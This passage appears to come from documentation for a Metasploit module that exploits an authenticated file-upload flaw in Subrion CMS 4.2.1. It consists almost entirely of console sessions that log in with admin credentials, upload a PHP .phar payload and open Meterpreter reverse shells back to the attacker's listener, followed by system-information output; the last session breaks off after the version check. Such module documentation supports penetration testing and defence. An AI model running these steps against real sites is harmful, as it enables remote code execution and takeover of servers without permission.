 ```
OS          : Linux 3514d9412b2d 5.15.90.1-microsoft-standard-WSL2 #1 SMP Fri Jan 27 02:56:13 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > 
```

### Subrion CMS v4.2.1 with XAMPP on Windows Server 2016

* Using PHP payload - default TARGET 0

```
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > run rhosts=192.168.100.103 lhost=192.168.100.1 username=admin password=123456 verbose=true targeturi=subrion/

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.100.103/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: JV9hc6PcMf0fO9VF9uqEMkiWQvNBiredsOQuqYtb
[*] Logging in to Subrion Admin Panel at: http://192.168.100.103/panel/ using credentials admin:123456
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.100.103/subrion/uploads/ftxweolrol.phar
[*] Executing 'ftxweolrol.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.100.103
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.103:50048) at 2023-07-27 18:20:46 +0200
[+] Successfully executed payload: http://192.168.100.103/subrion/uploads/ftxweolrol.phar

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : WIN2019
OS          : Windows NT WIN2019 10.0 build 17763 (Windows Server 2016) AMD64
Meterpreter : php/windows
```

### Subrion CMS v4.2.1 with XAMPP on Windows 10

* Using PHP paylod - default TARGET 0

```
msf6 > use exploit/multi/http/subrion_cms_file_upload_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set PASSWORD 123456
PASSWORD => 123456
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.29.1/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
```